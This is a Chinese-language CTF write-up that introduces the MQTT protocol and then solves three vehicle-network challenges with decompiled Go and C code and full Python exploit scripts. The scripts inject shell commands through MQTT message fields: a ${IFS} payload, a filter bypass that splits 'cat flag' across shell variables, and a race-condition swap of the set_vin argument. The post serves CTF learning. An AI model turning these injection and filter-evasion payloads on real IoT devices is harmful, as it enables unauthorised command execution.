

<!--more-->


## TL;DR

通过几道题目简单的入门了MQTT协议并且第一次逆向了GO语言写出的程序，了解了MQTT协议的相关原理和特点。


### 什么是 MQTT？

MQTT 是基于发布-订阅模式的通信协议，由 MQTT 客户端通过主题（Topic）发布或订阅消息，通过 MQTT Broker 集中管理消息路由，并依据预设的服务质量等级(QoS)确保端到端消息传递可靠性。

**MQTT 客户端**

任何运行 MQTT 客户端库的应用或设备都是 MQTT 客户端。例如，使用 MQTT 的即时通讯应用是客户端，使用 MQTT 上报数据的各种传感器是客户端，各种 MQTT 测试工具也是客户端。

**MQTT Broker**

MQTT Broker 是负责处理客户端请求的关键组件，包括建立连接、断开连接、订阅和取消订阅等操作，同时还负责消息的转发。一个高效强大的 MQTT Broker 能够轻松应对海量连接和百万级消息吞吐量，从而帮助物联网服务提供商专注于业务发展，快速构建可靠的 MQTT 应用。


### 环境配置

我的选择是EMQX (for Broker) https://github.com/emqx/emqx  &MQTTx (for Client) https://mqttx.app/zh/docs/downloading-and-installation

相关配置如下(我选择将tcp映射到9999端口)

```
ldz@ldz-OMEN-by-HP-Gaming-Laptop-16-wf0xxx:~/Downloads/ezmqtt$ docker run -d --name emqx \
  -p 9999:1883 -p 8083:8083 -p 8084:8084 \
  -p 8883:8883 -p 18083:18083 \
  emqx/emqx-enterprise:latest
```

> 1883 : For Tcp
>
> 8083 : For WebSocket
>
> 8084 : For WebSocket + TLS
>
> 8883 : For TLS/SSL
>
> 18083 : For WebManagePage

#### **QoS**

MQTT 提供了三种服务质量（QoS），在不同网络环境下保证消息的可靠性。

- QoS 0：消息最多传送一次。如果当前客户端不可用，它将丢失这条消息。
- QoS 1：消息至少传送一次。
- QoS 2：消息只传送一次。

#### **主题**

MQTT 协议根据主题来转发消息。主题通过 `/` 来区分层级，类似于 URL 路径，例如：

```awk
chat/room/1

sensor/10/temperature

sensor/+/temperature
```

MQTT 主题支持以下两种通配符：`+` 和 `#`。

- `+`：表示单层通配符，例如 `a/+` 匹配 `a/x` 或 `a/y`。
- `#`：表示多层通配符，例如 `a/#` 匹配 `a/x`、`a/b/c/d`。

> **注意**：通配符主题只能用于订阅，不能用于发布。

#### 开发库 in C/Cpp

| 库名称                     | 简介                                                    |
| -------------------------- | ------------------------------------------------------- |
| **Paho MQTT C/C++**        | Eclipse 官方维护的 MQTT 客户端库（libpaho-mqtt3c.so.1） |
| **Mosquitto libmosquitto** | 来自 Mosquitto Broker 的官方 C 客户端                   |
| **MQTT-C**                 | 纯 C 实现，轻量级                                       |
| **AsyncMQTTClient**        | 针对 ESP32/ESP8266 的异步 MQTT 库                       |

####  messageArrived (Paho)

```c
int messageArrived(void *context, char *topicName, int topicLen, MQTTClient_message *message);
```

| 参数 | 原型中含义                         |
| ---- | ---------------------------------- |
| `a1` | `context`（用户上下文，可为 NULL） |
| `a2` | `topicName`（主题名字符串）        |
| `a3` | `topicLen`（主题长度）             |
| `a4` | `message`（`MQTTClient_message*`） |

```c
typedef struct {
    int struct_id;
    int struct_version;
    int payloadlen;       // 消息长度
    void* payload;        // 消息数据
    int qos;
    int retained;
    int dup;
    int msgid;
    int properties;
} MQTTClient_message;
```

#### MQTTClient_setCallbacks (Paho)

```c
int MQTTClient_setCallbacks	(	MQTTClient	handle,
		void * 	context, //上下文 
		MQTTClient_connectionLost * 	cl, //连接断开回调
		MQTTClient_messageArrived * 	ma, //接受数据回调
		MQTTClient_deliveryComplete * 	dc  //发送成功回调
	)	
```

#### What's more

mqtt只定义了一种数据传输方式，你依然可以采用编解码对你的Payload进行加密：[使用 Protocol Buffers](https://mqttx.app/zh/docs/advanced#使用-protocol-buffers)


## challenge 1 强网杯车联网ezmqtt


题目给出了一个MQTT客户端用于向broker发送讯息，我们通过client订阅同样的主题并接受信息**belike**:



我们也可以通过python作为client订阅相同的主题向broker发送讯息并接受讯息

#### 漏洞


#### Exp

```python
# python 3.11

import random
import time
import json
from paho.mqtt import client as mqtt_client


broker = '127.0.0.1'
port = 9999
topic = "HTTP"
# Generate a Client ID with the publish prefix.
client_id = f'publish-{random.randint(0, 1000)}'
username = 'admin'
password = 'public'

def connect_mqtt():
    def on_connect(client, userdata, flags, reasonCode, properties=None):
        client.subscribe("HTTP")
        print(f"Connected with result code {reasonCode}")
    def on_message(client, userdata, msg):
        message = msg.payload  # Decode message payload
        print(f"\n[RECV] Topic: '{msg.topic}'")
        print(f"[RECV] Message: {message}")

    client = mqtt_client.Client(mqtt_client.CallbackAPIVersion.VERSION2, client_id)
    client.username_pw_set(username, password)
    client.on_connect = on_connect
    client.on_message = on_message
    client.connect(broker, port, keepalive=10000)
    return client


def publish(client,msg):
    result = client.publish(topic, msg)

def run():
    client = connect_mqtt()
    client.loop_start()
    publish(client,"GET /home/ctf/AAAAAAAAAA;cat${IFS}flag;#")
    time.sleep(1)
    publish(client,"GET /home/ctf/index_html")
    
    time.sleep(5)
    client.loop_stop()
    client.disconnect()

if __name__ == '__main__':
    run()
```


## challenge 2 强网杯车联网mqtt

题目用go语言实现了一个mqtt客户端，程序主函数如下，可以看到程序注册了Msg回调函数和ConnectLost回调函数，同时把CTF作为接受消息的topic，CTF/send作为发送消息的topic。

```c
void __fastcall main_main()
{
  __int128 v0; // xmm15
  __int64 i; // rax
  __int64 version; // rax
  __int64 v3; // rcx
  __int64 v4; // rax
  __int64 *v5; // r11
  __int64 v6; // rbx
  __int64 v7; // rax
  __int64 *v8; // r11
  __int64 v9; // rax
  __int64 v10; // rcx
  __int64 v11; // rax
  net_Dialer *p_net_Dialer; // rax
  void *v13; // rbx
  __int64 v14; // rax
  void *v15; // rdx
  _QWORD *v16; // r11
  __int64 v17; // rcx
  _QWORD *v18; // r11
  RTYPE **v19; // rax
  _QWORD *v20; // r11
  bool v21; // cl
  __int64 v22; // rax
  _QWORD *v23; // rax
  sync_WaitGroup *v24; // rcx
  sync_WaitGroup **v25; // r11
  __int64 *v26; // [rsp+0h] [rbp-1E0h]
  _QWORD v27[6]; // [rsp+10h] [rbp-1D0h] BYREF
  __int64 v28; // [rsp+40h] [rbp-1A0h]
  __int64 VinFile; // [rsp+48h] [rbp-198h]
  void *v30; // [rsp+50h] [rbp-190h]
  _QWORD v31[2]; // [rsp+58h] [rbp-188h] BYREF
  __int128 v32; // [rsp+68h] [rbp-178h] BYREF
  __int16 v33; // [rsp+B8h] [rbp-128h]
  __int64 v34; // [rsp+108h] [rbp-D8h]
  __int64 v35; // [rsp+110h] [rbp-D0h]
  __int64 v36; // [rsp+118h] [rbp-C8h]
  __int64 v37; // [rsp+120h] [rbp-C0h]
  char v38; // [rsp+128h] [rbp-B8h]
  __int64 v39; // [rsp+130h] [rbp-B0h]
  char v40; // [rsp+138h] [rbp-A8h]
  __int128 v41; // [rsp+140h] [rbp-A0h]
  __int64 v42; // [rsp+158h] [rbp-88h]
  __int64 (__golang **v43)(int, int, int, int, int, int, int, int, int, __int64, __int64, __int64, __int64); // [rsp+160h] [rbp-80h]
  __int128 v44; // [rsp+170h] [rbp-70h]
  char v45; // [rsp+188h] [rbp-58h]
  __int64 v46; // [rsp+190h] [rbp-50h]
  mqtt_WebsocketOptions *p_mqtt_WebsocketOptions; // [rsp+198h] [rbp-48h]
  net_Dialer *v48; // [rsp+1A8h] [rbp-38h]
  __int64 v49; // [rsp+1B0h] [rbp-30h]
  char v50; // [rsp+1B8h] [rbp-28h]
  __int128 v51; // [rsp+1C0h] [rbp-20h] BYREF
  sync_WaitGroup *p_sync_WaitGroup; // [rsp+1D0h] [rbp-10h]
  __int64 v53; // [rsp+1D8h] [rbp-8h] BYREF

  for ( i = 0LL; i < 256; ++i )
    main_lookup[i] = 37 * i + 13;
  v27[5] = 8LL;
  VinFile = main_readFile(
              "/mnt/VINomitzeroGoStringsignal: readlinksendfilenil PoolThursdaySaturdayFebruaryNovemberDecember%!Month(seconds:48828125infinitystrconv.parsing ParseIntscavengepollDescsynctesttraceBufdeadlockraceFinipanicnilcgocheckrunnable is not  pointer, errno= packed=BAD RANK status unknown(trigger= npages= nalloc= nfreed=) errno=[signal  newval= mcount= bytes, \n-----\n\n stack=[ minLC=  maxpc= \tstack=[ minutes status= etypes no anode/uid_map/gid_mapnetedns0[::1]:53continue_gatewayinvalid address raw-readreadfromunixgramUNSUBACKPINGRESPtlsmlkemCurveID(finishedhijackedLocationif-matchlocationHTTP/1.1no-cacheContinueAcceptedConflictNO_PROXYno_proxyRSV1 setRSV2 setRSV3 setbad MASKavx512bwavx512vloverflowgo/typesnet/httpgo/buildClassANYQuestionMD5+SHA1SHA3-224SHA3-256SHA3-384SHA3-512SHA1-RSADSA-SHA1DNS nameexporterECDH PCTReceivedif-range#fips1402.5.4.102.5.4.112.5.4.17CTR_DRBGSHA2-256avx512cdavx512eravx512pfavx512dqSHA2-512 of type omitemptyfork/execcontinued#execwait/dev/nullWednesdaySeptemberlocaltimeConnect()not foundall_proxy127.0.0.1connectedInheritedcomplex64interfaceinvalid nreflect: funcargs(bad indirInterface244140625ParseUintrwxrwxrwxtimerSendpollCacheprofBlockstackpoolhchanLeafwbufSpansGC (idle)mSpanDeadinittracescavtracepanicwaitchan sendpreemptedcoroutinesignal 32signal 33signal 34signal 35signal 36signal 37signal 38signal 39signal 40signal 41signal 42signal 43signal 44signal 45signal 46signal 47signal 48signal 49signal 50signal 51signal 52signal 53signal 54signal 55signal 56signal 57signal 58signal 59signal 60signal 61signal 62signal 63signal 64copystackLINUX_2.6 -> node= ms cpu,  (forced) wbuf1.n= wbuf2.n= s.limit= s.state= B work ( B exp.)  marked   unmarked in use)\n, size = bad prune, tail = newosprocrecover:  not in [ctxt != 0, oldval=, newval= threads=: status= blocked= lockedg=atomicor8 runtime= sigcode= m->curg=(unknown)total < 0traceback} stack=[ gp.goid= lockedm=interruptbus errorfiles,dnsdns,filesipv6-icmp_outboundlocalhostattempts:SUBSCRIBE%s %q: %sempty urltlsrsakex%s %x %x\nHandshakewebsocketsucceededSee OtherUse ProxyForbiddenNot FoundToo EarlyTrailer: ALL_PROXY",
              8LL);                             // mnt_vin
  version = main_readFile(&mnt_version, 12LL);
  v3 = 8LL;
  qword_996878 = 8LL;
  if ( runtime_writeBarrier )
  {
    runtime_gcWriteBarrier2(version);
    v4 = VinFile;
    *v5 = VinFile;
    v5[1] = main_vin;
  }
  else
  {
    v4 = VinFile;
  }
  main_vin = v4;
  v6 = v3;
  v7 = main_vinCP(v4, v3);                      // copy?
  qword_996888 = v6;
  if ( runtime_writeBarrier )
  {
    v7 = runtime_gcWriteBarrier2(v7);
    *v8 = v7;
    v8[1] = main_vinHash;
  }
  main_vinHash = v7;
  v9 = runtime_makemap_small();
  v32 = v0;
  v26 = &v53;
  v11 = ((__int64 (__golang *)(__int64, __int64, __int64, _QWORD *))setZero)(v9, v6, v10, &v27[6]);
  v33 = 257;
  v34 = 30LL;
  v35 = 10000000000LL;
  v36 = 30000000000LL;
  v37 = 600000000000LL;
  v38 = 1;
  v39 = 30000000000LL;
  v40 = 0;
  v41 = v0;
  v42 = 0LL;
  v43 = &lostHandler;
  v44 = v0;
  v45 = 0;
  v46 = v11;
  p_mqtt_WebsocketOptions = (mqtt_WebsocketOptions *)runtime_newobject(&RTYPE_mqtt_WebsocketOptions);// start init mqtt
  p_net_Dialer = (net_Dialer *)runtime_newobject(&RTYPE_net_Dialer);
  p_net_Dialer->Timeout = 30000000000LL;
  v48 = p_net_Dialer;
  v49 = 0LL;
  v50 = 0;
  v13 = main_broker;
  v14 = github_com_eclipse_paho_2emqtt_2egolang__ptr_ClientOptions_AddBroker(&v32, main_broker, CTF);
  v15 = main_clientID;
  *(_QWORD *)(v14 + 32) = qword_98A648;
  if ( runtime_writeBarrier )
  {
    v14 = runtime_gcWriteBarrier2(v14);
    *v16 = v15;
    v16[1] = *(_QWORD *)(v14 + 24);
  }
  *(_QWORD *)(v14 + 24) = v15;
  *(_QWORD *)(v14 + 160) = 60LL;
  if ( runtime_writeBarrier )
  {
    v14 = runtime_gcWriteBarrier2(v14);
    *v18 = v17;
    v18[1] = *(_QWORD *)(v14 + 240);
  }
  *(_QWORD *)(v14 + 232) = &MsgHandler;
  *(_QWORD *)(v14 + 240) = &Main_main_func1;
  v19 = github_com_eclipse_paho_2emqtt_2egolang_NewClient((_ptr_url_URL **)v14);
  main_mqttClient = (__int64)v19;
  if ( runtime_writeBarrier )
  {
    v19 = (RTYPE **)runtime_gcWriteBarrier2(v19);
    *v20 = v13;
    v20[1] = qword_9968C8;
  }
  qword_9968C8 = (__int64)v13;
  v28 = ((__int64 (__golang *)(void *))v19[4])(v13);
  v30 = v13;
  if ( (*(unsigned __int8 (__golang **)(void *))(v28 + 40))(v13) )
    v21 = (*(__int64 (__golang **)(void *))(v28 + 32))(v30) != 0;
  else
    v21 = 0;
  if ( v21 )
  {
    v22 = (*(__int64 (__golang **)(void *))(v28 + 32))(v30);
    v51 = v0;
    if ( v22 )
      v22 = *(_QWORD *)(v22 + 8);
    *(_QWORD *)&v51 = v22;
    *((_QWORD *)&v51 + 1) = v13;
    log_Fatal(&v51, 1LL, 1LL);
  }
  p_sync_WaitGroup = (sync_WaitGroup *)runtime_newobject(&RTYPE_sync_WaitGroup);
  sync__ptr_WaitGroup_Add(p_sync_WaitGroup, 1LL);
  v23 = runtime_newobject((const RTYPE *)&unk_6DE880);
  *v23 = main_main_gowrap1;                     // goroutine
  if ( runtime_writeBarrier )
  {
    v23 = (_QWORD *)runtime_gcWriteBarrier1(v23);
    v24 = p_sync_WaitGroup;
    *v25 = p_sync_WaitGroup;
  }
  else
  {
    v24 = p_sync_WaitGroup;
  }
  v23[1] = v24;
  runtime_newproc();
  v31[0] = &RTYPE_string;
  v31[1] = &off_791490;
  fmt_Fprintln(&go_itab__ptr_os_File_comma_io_Writer, os_Stdout, v31, 1LL, 1LL);
  sync__ptr_WaitGroup_Wait(p_sync_WaitGroup);
}
```

需要注意的地方是go语言字符串是一个地址形式加上长度形式，ida识别不出长度，所以反编译的结果字符串会很长很乱。总而言之程序读取了`/mnt/version`和`/mnt/VIN`两个文件，并在msgHandler里实现了三个json字段：`auth`，`cmd`，`args`，其中auth字段为原始VIN码经过程序加密算法进行得到，cmd有两个选项：`get_version`和`set_vin`，其中set_bin使用了`echo -n %s > /mnt/VIN`

注意，我们的输入需要绕过WAF，即

```
.rodata:0000000000720838 aCatawksedcutxx db 'catawksedcutxxdcmp' ; DATA XREF: .rodat
```

另外地，实际上使用“>”也会被WAF报措


最后语句执行


因此，我们不妨构造`; A=c; B=at; C=fl; D=ag; $A$B $C$D;`截断echo便可以打印出flag。

同时，在最后的代码里，输出的信息也会被重定向到CTF/send topic下，我们即可得到flag，十分可惜的是，我本想把flag内容重定向到version然后get_version输出的，但最终并没有找到合适的办法。最终exp如下：

```python
import random
import time
import json
from paho.mqtt import client as mqtt_client


broker = '127.0.0.1'
port = 9999
topic = "CTF"
# Generate a Client ID with the publish prefix.
client_id = f'publish-{random.randint(0, 1000)}'
username = 'admin'
password = 'public'

def connect_mqtt():
    def on_connect(client, userdata, flags, reasonCode, properties=None):
        client.subscribe("CTF")
        client.subscribe("CTF/send")
        print(f"Connected with result code {reasonCode}")
    def on_message(client, userdata, msg):
        message = msg.payload  # Decode message payload
        #print(message)
        if msg.topic == "CTF/send":
            print(f"[RECV] Message: {message}")
        elif msg.topic == "CTF":
            print(f"[SEND] Message: {message}")


    client = mqtt_client.Client(mqtt_client.CallbackAPIVersion.VERSION2, client_id)
    client.username_pw_set(username, password)
    client.on_connect = on_connect
    client.on_message = on_message
    client.connect(broker, port, keepalive=10000)
    return client


def publish(client,msg):
    result = client.publish(topic, msg)

def send_message(auth:str, cho_cmd:int, arg:str):
    if cho_cmd == 1:
        cmd = "get_version"
    else :cmd = "set_vin"

    message = {
        "auth": auth,
        "cmd": cmd,
        "arg": arg
    }

    return message

def run():
    client = connect_mqtt()
    client.loop_start()
    time.sleep(1)
    mes = send_message("_w_=gj",1,'ls')
    publish(client, json.dumps(mes))
    time.sleep(1)
    mes = send_message("_w_=gj",0,'; A=c; B=at; C=fl; D=ag; $A$B $C$D;')
    publish(client, json.dumps(mes))
    time.sleep(10)
    client.loop_stop()
    client.disconnect()

if __name__ == '__main__':
    run()
```


# challenge 3 Ciscn mqtt

```c
void *__fastcall start_routine(void *a1)
{
  const char *v2; // rax
  unsigned int v3; // [rsp+14h] [rbp-17Ch]
  FILE *v4; // [rsp+18h] [rbp-178h]
  FILE *stream; // [rsp+20h] [rbp-170h]
  const char *v6; // [rsp+28h] [rbp-168h]
  const char *v7; // [rsp+30h] [rbp-160h]
  const char *File; // [rsp+38h] [rbp-158h]
  __int64 ptr; // [rsp+40h] [rbp-150h] BYREF
  __int64 v10; // [rsp+48h] [rbp-148h]
  __int64 v11; // [rsp+50h] [rbp-140h]
  __int64 v12; // [rsp+58h] [rbp-138h]
  __int64 v13; // [rsp+60h] [rbp-130h]
  __int64 v14; // [rsp+68h] [rbp-128h]
  __int64 v15; // [rsp+70h] [rbp-120h]
  __int64 v16; // [rsp+78h] [rbp-118h]
  char s[264]; // [rsp+80h] [rbp-110h] BYREF
  unsigned __int64 v18; // [rsp+188h] [rbp-8h]

  v18 = __readfsqword(0x28u);
  if ( !(unsigned int)sub_160E() )
  {
    send("{\"status\":\"unauthorized\"}");
    puts("unauthorized");
    return 0LL;
  }
  if ( !strcmp(cmd, "get_version") )
  {
    File = (const char *)readFile("/mnt/version");
    if ( File )
      v2 = File;
    else
      v2 = "error";
  }
  else if ( !strcmp(cmd, "get_location") )
  {
    v7 = (const char *)readFile("/dev/location");
    if ( v7 )
      v2 = v7;
    else
      v2 = "error";
  }
  else
  {
    if ( strcmp(cmd, "get_tpms") )
    {
      if ( !strcmp(cmd, "set_adb") )
      {
        v3 = atoi(args);
        if ( v3 < 2 )
        {
          snprintf(s, 0x80uLL, "echo -n %d>/mnt/adb_flag;cat /mnt/adb_flag", v3);
          stream = popen(s, "r");
          ptr = 0LL;
          v10 = 0LL;
          v11 = 0LL;
          v12 = 0LL;
          v13 = 0LL;
          v14 = 0LL;
          v15 = 0LL;
          v16 = 0LL;
          fread(&ptr, 1uLL, 0x3FuLL, stream);
          pclose(stream);
          send(&ptr);
        }
        else
        {
          send("invalid_flag");
        }
      }
      else if ( !strcmp(cmd, "set_vin") )
      {
        if ( (unsigned int)sub_158A(args) )
        {
          sleep(2u); //vuln
          snprintf(s, 0x100uLL, "echo -n %s>/mnt/VIN;cat /mnt/VIN", args);
          puts(s);
          v4 = popen(s, "r");
          ptr = 0x203A746572LL;
          v10 = 0LL;
          v11 = 0LL;
          v12 = 0LL;
          v13 = 0LL;
          v14 = 0LL;
          v15 = 0LL;
          v16 = 0LL;
          fread((char *)&ptr + 5, 1uLL, 0x3FuLL, v4);// raceCondition
          pclose(v4);
          puts((const char *)&ptr);
          send(&ptr);
          strncpy(vin_code, args, 0x3FuLL);
          sub_1509(vin_code, &byte_5080);
        }
        else
        {
          send("invalid_vin");
          puts("invalid_vin");
        }
      }
      else
      {
        send("unknown_command");
      }
      return 0LL;
    }
    v6 = (const char *)readFile("/dev/tpms");
    if ( v6 )
      v2 = v6;
    else
      v2 = "error";
  }
  send(v2);
  return 0LL;
}
```

本地调试的时候遇到了一点问题

```
pwndbg> set follow-fork-mode child
pwndbg> set detach-on-fork off
pwndbg> b fopen
Breakpoint 1 at 0x13b0
pwndbg> r
Starting program: /home/ldz/Downloads/mqtt3/pwn 
warning: could not find '.gnu_debugaltlink' file for /home/ldz/Downloads/mqtt3/libpaho-mqtt3c.so.1
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
```

我们不妨

```
ldz@ldz-OMEN-by-HP-Gaming-Laptop-16-wf0xxx:~/Downloads/mqtt3$ sudo cp /lib/x86_64-linux-gnu/libc.so.6 .
[sudo] ldz 的密码： 
ldz@ldz-OMEN-by-HP-Gaming-Laptop-16-wf0xxx:~/Downloads/mqtt3$ sudo cp /lib64/ld-linux-x86-64.so.2 .
ldz@ldz-OMEN-by-HP-Gaming-Laptop-16-wf0xxx:~/Downloads/mqtt3$ patchelf --set-rpath . --set-interpreter ./ld-linux-x86-64.so.2 ./pwn
```

题目的打法是条件竞争，只需要在sleep期间把args修改为cat flag即可

```python
import _thread

import random
import time
import json
from paho.mqtt import client as mqtt_client


broker = '127.0.0.1'
port = 9999
topic = "diag"
# Generate a Client ID with the publish prefix.
client_id = f'publish-{random.randint(0, 1000)}'
username = 'admin'
password = 'public'

def connect_mqtt():
    def on_connect(client, userdata, flags, reasonCode, properties=None):
        client.subscribe("diag")
        client.subscribe("diag/resp")
        print(f"Connected with result code {reasonCode}")
    def on_message(client, userdata, msg):
        message = msg.payload  # Decode message payload
        #print(message)
        if msg.topic == "diag/resp":
            print(f"[RECV] Message: {message}")
        elif msg.topic == "diag":
            print(f"[SEND] Message: {message}")


    client = mqtt_client.Client(mqtt_client.CallbackAPIVersion.VERSION2, client_id)
    client.username_pw_set(username, password)
    client.on_connect = on_connect
    client.on_message = on_message
    client.connect(broker, port, keepalive=10000)
    return client


def publish(client,msg):
    result = client.publish(topic, msg)

def send_message(auth:str, cho_cmd:int, arg:str):
    if cho_cmd == 1:
        cmd = "get_version"
    elif cho_cmd == 0 :cmd = "set_vin"
    else: cmd = "set_adb"

    message = {
        "auth": auth,
        "cmd": cmd,
        "arg": arg
    }

    return message

def race_condition(client):
    mes = send_message("fb80056a",0,"1111111111;cat flag")
    publish(client, json.dumps(mes))


def run():
    client = connect_mqtt()
    client.loop_start()
    time.sleep(1)
    mes = send_message("fb80056a",1,'ls')
    publish(client, json.dumps(mes))

    #_ondes = _thread.start_new_thread( race_condition, (client,) )

    time.sleep(1)
    mes = send_message("fb80056a",0,"1111111111")
    publish(client, json.dumps(mes))
    time.sleep(1)
    race_condition(client)
    #race_condition(client)
    time.sleep(10)
    client.loop_stop()
    client.disconnect()

if __name__ == '__main__':
    run()
```


至此，感觉理解的差不多了。

